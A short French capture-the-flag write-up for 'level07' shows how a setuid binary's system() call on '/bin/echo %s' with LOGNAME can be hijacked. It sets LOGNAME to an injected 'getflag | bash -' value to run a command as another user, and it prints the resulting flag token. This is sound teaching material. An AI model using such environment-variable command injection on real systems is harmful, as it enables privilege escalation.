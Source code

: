 ## Démarche

- Dans le home, se situe un binaire :
    `ls -la`
    > -rwsr-sr-x 1 flag07  level07 8805 Mar  5  2016 level07
    `./level07`
    > level07

- Comprendre le fonctionnement du binaire avec `nm` et `strings` :
  
  -  `nm -u level07`

        ```
                U asprintf@@GLIBC_2.0
                U getegid@@GLIBC_2.0
                U getenv@@GLIBC_2.0
                U geteuid@@GLIBC_2.0
                U setresgid@@GLIBC_2.0
                U setresuid@@GLIBC_2.0
                U system@@GLIBC_2.0
        ```

        *comme dans le binaire du level03, `setresgid` et `setresgid` permettent au programme d'exécuter des commandes en tant qu'un utilisateur donné.
        De plus, un asprintf est appelé*

   - `strings level07`
        > LOGNAME

        > /bin/echo %s

- Chercher si `LOGNAME` est une variable d'environnement :
    `env`
    > LOGNAME=level07

  *le contenu de la variable correspond à la sortie d'affichage du programme*

- Changer la variable shell `LOGNAME` pour que notre binaire exécute le programme `getflag` :
    
    `export LOGNAME=""getflag" | bash -" ; echo $LOGNAME`
    > getflag | bash -

    `./level07`
    > Check flag.Here is your token : fiumuikeil55xe9cu4dood66h



## Ressources
- https://stackoverflow.com/questions/17674137/can-i-use-echo-to-execute-commands